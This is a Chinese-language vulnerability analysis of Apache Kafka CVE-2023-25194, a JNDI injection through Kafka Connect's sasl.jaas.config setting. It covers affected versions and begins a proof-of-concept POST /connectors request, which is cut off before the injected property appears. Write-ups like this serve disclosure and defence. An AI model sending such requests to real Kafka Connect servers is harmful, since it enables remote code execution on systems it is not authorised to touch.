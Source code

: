 ```yaml
---
title: Kafka CVE-2023-25194漏洞分析
authors: Enokiy
date: 2023-05-02
categories: [web安全, 漏洞分析]
tags: [web安全, 漏洞分析]
---
```


## 简介
Apache Kafka是一种分布式的，基于发布/订阅的消息系统。

* 生产者和消费者（producer和consumer）：消息的发送者叫 Producer，消息的使用者和接受者是 Consumer，生产者将数据保存到 Kafka 集群中，消费者从中获取消息进行业务的处理。
* broker：Kafka 集群中有很多个Server，其中每一个Server都可以存储消息，将每一个Server 称为一个kafka 实例，也叫做 broker。
* 主题（topic）：一个 topic 里保存的是同一类消息，相当于对消息的分类，每个 producer 将消息发送到 kafka 中，都需要指明要存的 topic 是哪个，也就是指明这个消息属于哪一类。
* 分区（partition）：kafka基于文件进行存储,每个 topic 都可以分成多个 partition，每个 partition 在存储层面是 append log 文件。

Apache Kafka 的一个关键依赖是 Apache Zookeeper，它是一个分布式配置和同步服务。Zookeeper 是 Kafka 代理和消费者之间的协调接口。Kafka 服务器通过 Zookeeper 集群共享信息。

CVE-2023-25194是发生在 Apache Kafka Connector中的JNDI注入漏洞。通过 Kafka Connect REST API 配置连接器时，经过身份验证的操作员可以将连接器的任何Kafka客户端的“sasl.jaas.config”属性设置为“com.sun.security.auth.module.JndiLoginModule”，LoginModule允许访问用户指定的JNDI 服务提供商，因此导致JNDI注入。

影响版本: Kafka<3.4.0,因为: "Since Apache Kafka 3.4.0, we have added a system property ("org.apache.kafka.disallowed.login.modules") to disable the problematic login modules usage in SASL JAAS configuration. Also by default "com.sun.security.auth.module.JndiLoginModule" is disabled from Apache Kafka 3.4.0."

## 复现

POC参考https://github.com/ohnonoyesyes/CVE-2023-25194：

```plaintext
POST /connectors HTTP/1.1
Host: xxxx:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0;.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 1109

{"name": "test", 
   "config":
    {
        "connector.class":"io.debezium.connector.mysql.MySqlConnector",
    	"database.hostname": "xxxxx",
    	"database.port": "3306",
    	"database.user": "root",
    	"database.password": "xxxxxx",
    	"database.dbname": "xxxx",
    	"database.sslmode": "SSL_MODE",
        "database.server.id": "1234",
    	"database.server.name": "localhost",
        "table.include.list": "MYSQL_TABLES",
    	"tasks.max":"1",
```